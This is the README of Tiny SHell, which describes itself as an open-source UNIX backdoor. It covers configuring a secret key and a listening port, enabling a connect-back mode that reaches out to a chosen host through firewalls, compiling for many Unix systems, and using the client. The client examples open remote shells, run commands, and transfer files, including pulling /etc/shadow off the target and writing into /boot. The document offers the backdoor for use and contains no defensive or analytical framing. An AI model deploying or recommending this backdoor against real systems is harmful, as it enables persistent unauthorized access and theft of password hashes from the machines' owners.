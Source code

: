 # Tiny SHell
## An open-source UNIX backdoor

* Before compiling Tiny SHell

    1. First of all, you should setup your secret key, which
       is located in `tsh.h`; the key can be of any length (use
       at least 12 characters for better security).

    2. It is advised to change `SERVER_PORT`, the port on which
       the server will be listening for incoming connections.

    3. You may want to start tshd in "connect-back" mode if
       it runs on on a firewalled box; simply uncomment and
       modify `CONNECT_BACK_HOST` in `tsh.h`.

* Compiling Tiny SHell

    Run `make <system>`, where <system> can be any one of these:
    `linux`, `freebsd`, `openbsd`, `netbsd`, `cygwin`, `sunos`, `irix`, `hpux`, `osf`

* How to use the server

    It can be useful to set `$HOME` and the file creation mask
    before starting the server:

        % umask 077; HOME=/var/tmp ./tshd

* How to use the client

    Make sure tshd is running on the remote host. You can:

    - start a shell:

        `./tsh <hostname>`

    - execute a command:

        `./tsh <hostname> "uname -a"`

    - transfer files:

        `./tsh <hostname> get /etc/shadow .`
        `./tsh <hostname> put vmlinuz /boot`

    Note: if the server runs in connect-back mode, replace
    the remote machine hostname with "cb".

* About multiple file transfers

    At the moment, Tiny SHell does not support scp-like multiple
    and/or recursive file transfers. You can work around this bug
    by simply making a tar archive and transferring it. Example:

        ./tsh host "stty raw; tar -cf - /etc 2>/dev/null" | tar -xvf -

* About terminal modes

    On some brain-dead systems (actually, IRIX and HP-UX), Ctrl-C
    and other control keys do not work correctly. Fix it with:

        % stty intr "^C" erase "^H" eof "^D" susp "^Z" kill "^U"

* About security

    Please remember that the secret key is stored in clear inside
    both tsh and tshd executables; therefore you should make sure
    that no one except you has read access to these two files.
    However, you may choose not to store the real (valid) key in
    the client, which will then ask for a password when it starts.

